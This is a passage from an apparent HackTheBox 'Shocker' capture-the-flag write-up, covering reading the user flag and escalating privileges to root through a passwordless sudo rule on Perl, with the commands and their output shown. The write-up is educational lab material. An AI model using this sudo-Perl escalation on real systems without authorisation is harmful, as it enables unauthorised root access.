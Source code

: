I'm user `shelly`!

**user.txt:**
```shell
shelly@Shocker:/usr/lib/cgi-bin$ cat /home/shelly/user.txt
cat /home/shelly/user.txt
{Redacted}
```

## Privilege Escalation

### shelly to root

As usual, enumerate the system after gaining initial foothold!

**Sudo permission:**
```shell
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

User `shelly` can run `/usr/bin/perl` as root without password!

**According to [GTFObins](https://gtfobins.github.io/gtfobins/perl/#sudo), we can escalate our privilege to root via:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Shocker/images/Pasted%20image%2020230603194843.png)

**Let's do this!**
```shell
shelly@Shocker:/usr/lib/cgi-bin$ sudo /usr/bin/perl -e 'exec "/bin/bash";'
sudo /usr/bin/perl -e 'exec "/bin/bash";'
python3 -c "import pty;pty.spawn('/bin/bash')"
root@Shocker:/usr/lib/cgi-bin# whoami;hostname;id;ip a
whoami;hostname;id;ip a
root
Shocker
uid=0(root) gid=0(root) groups=0(root)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:d5:87 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.56/24 brd 10.10.10.255 scope global ens192
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:d587/64 scope global mngtmpaddr dynamic 
       valid_lft 86400sec preferred_lft 14400sec
```